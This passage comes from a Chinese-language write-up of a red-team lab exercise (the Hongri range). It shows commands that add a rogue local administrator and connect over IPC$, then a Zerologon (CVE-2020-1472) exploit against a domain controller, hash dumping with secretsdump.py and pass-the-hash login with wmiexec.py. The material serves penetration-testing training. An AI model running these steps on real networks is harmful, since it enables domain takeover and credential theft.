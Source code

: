 ![截图](b79036f65eb24bb364a7afb4bd9f235d.png)

继续进一步的添加用户：

```shell
set command net localgroup Administrators yuan123 /add
set command net user yuan123
```

![截图](903b284120cb8e83bd4c08cdaff52498.png)

这时候我们就建立了一个新的用户，然后我们就可以连接这个用户，或者利用这个用户进行登录了：

```shell
shell net use \\192.168.52.138\ipc$ "QWEasd123" /user:yuan123
```

![截图](5da98f09347eb9f5f83ccc033ed0e8aa.png)

这时候就可以像之前那样子直接连接！

<br/>

#### 4、漏洞利用-cve2020-1472（zerologon漏洞）

未经身份验证的攻击者只需要能访问域控的==135端口==，即可通过NetLogon远程协议连接域控并重置域控机器账户的hash，从而导致攻击者可以利用域控的机器账户导出域内所有用户的Hash(域控的机器账户默认具有DCSync权限)，进而接管整个域。

因此，这里我们也利用一下这个漏洞看看：

首先，我们利用脚本将域内账户置空：（OWA是用户名）

```shell
proxychains4  proxychains4 python cve-2020-1472-exploit.py OWA 192.168.52.138
```

![截图](e71192f09d160b3acc2a8a12fc08bd9b.png)

然后，我们利用secretsdump.py查看密钥哈希：

```shell
 proxychains python secretsdump.py OWA\$@192.168.52.138 -just-dc -no-pass
```

![截图](90af5d2aeceae007fdb5e36c5a52f8d7.png)

然后进行连接即可：

```shell
proxychains4 python wmiexec.py -hashes :4f1a2b2cf1dd79ae22a7f198412d7e51 god/administrator@192.168.52.138
```

![截图](b19258abc26cfa92290108aa12a1d90b.png)

### 总结

至此，我大致完成了对于攻打红日靶场的第一关，主要学习了内网信息收集、漏洞利用、横向移动等知识。
